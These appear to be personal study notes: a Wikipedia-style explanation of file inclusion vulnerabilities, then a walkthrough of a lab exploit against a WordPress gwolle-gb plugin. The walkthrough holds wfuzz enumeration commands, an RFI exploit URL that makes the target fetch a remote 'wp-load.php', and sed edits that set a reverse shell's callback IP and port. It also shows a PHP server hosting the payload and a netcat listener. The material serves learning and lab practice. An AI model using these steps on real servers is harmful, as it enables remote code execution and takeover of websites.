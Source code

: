 A **file inclusion vulnerability** is a type of [web](https://en.wikipedia.org/wiki/World_Wide_Web "World Wide Web") [vulnerability](https://en.wikipedia.org/wiki/Vulnerability_(computing) "Vulnerability (computing)") that is most commonly found to affect [web applications](https://en.wikipedia.org/wiki/Web_application "Web application") that rely on a scripting [run time](https://en.wikipedia.org/wiki/Run_time_(program_lifecycle_phase) "Run time (program lifecycle phase)"). This issue is caused when an application builds a path to executable code using an attacker-controlled variable in a way that allows the attacker to control which file is executed at run time. A file include vulnerability is distinct from a generic [directory traversal attack](https://en.wikipedia.org/wiki/Directory_traversal_attack "Directory traversal attack"), in that directory traversal is a way of gaining unauthorized [file system](https://en.wikipedia.org/wiki/File_system "File system") access, and a file inclusion vulnerability subverts how an application loads code for execution. Successful exploitation of a file inclusion vulnerability will result in [remote code execution](https://en.wikipedia.org/wiki/Arbitrary_code_execution "Arbitrary code execution") on the [web server](https://en.wikipedia.org/wiki/Web_server "Web server") that runs the affected web application. An attacker can use remote code execution to create a [web shell](https://en.wikipedia.org/wiki/Web_shell "Web shell") on the web server, which can be used for [website defacement](https://en.wikipedia.org/wiki/Website_defacement "Website defacement").




!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!


**Remote file inclusion** (**RFI**) occurs when the web application downloads and executes a remote file. These remote files are usually obtained in the form of an [HTTP](https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol "Hypertext Transfer Protocol") or [FTP](https://en.wikipedia.org/wiki/File_Transfer_Protocol "File Transfer Protocol") [URI](https://en.wikipedia.org/wiki/Uniform_Resource_Identifier "Uniform Resource Identifier") as a user-supplied parameter to the web application.

Now , for the explanation savitar is using wfuzz, watching a web server, which content there is on it. 

He is fuzzing manually , and focusing on the plugins


-c = (content)
-hc= (hide or ignore the 404 in this case)
-w (dictionary)
```
wfuzz -c --hc=404 -w wp-plugins.fuzz.txt http://10.10.10.88/webservices/wp/FUZZ
```

he was searching particulary one :
```
wp-content/plugins/gwolle-gb/
```

He find with metasploit some exploit of remote file inclusion.

with metasploit -x (path of the explit) we see that we can add files here:

http://[host]/wp-content/pluggins/gwolle-gb/frontend/capcha/ajaxresponse.php?abspath=http://[hackers_website]
host=victim
hackers_website=my php server


so in the "hackers website" we put our file. the file must be called "wp-load.php"

he downloaded a reverse shell code from pentest monkey and while he changes the IP and the port of the attack he used:
```
sed -i 's/127.0.0.1/10.10.14.15/' wp-load.php

sed -i 's/1234/443/' wp-load.php
```

so this changes the info without the use of "nano" or vim


he opened a server on php with
```
php -S 0.0.0.0:80
```
on the folder where is the file.



he is listening on the 443 with netcat and now on the browser he will go to the 

http://[host]/wp-content/pluggins/gwolle-gb/frontend/capcha/ajaxresponse.php?abspath=http://[hackers_website]


So, basically the attack consist of adding a malicious file on the host, and then execute commands from my own machine. In this case, the file was added to the plugins folder of wordpress.









